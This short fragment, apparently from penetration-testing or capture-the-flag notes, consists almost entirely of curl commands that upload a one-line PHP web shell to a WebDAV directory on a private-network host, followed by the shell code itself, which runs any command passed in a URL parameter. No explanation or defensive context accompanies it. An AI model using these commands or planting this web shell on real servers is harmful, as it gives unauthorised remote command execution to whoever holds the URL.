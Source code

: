 ```bash
curl -v -X PUT -d "<?php system(\$_GET["shell"]); ?>" http://172.16.1.10/webdav/shell.php
```
---
```bash
curl -v http://172.16.1.10/webdav/ --upload-file shell.php 
```

```php
"<?php system($_GET["shell"]); ?>"
```
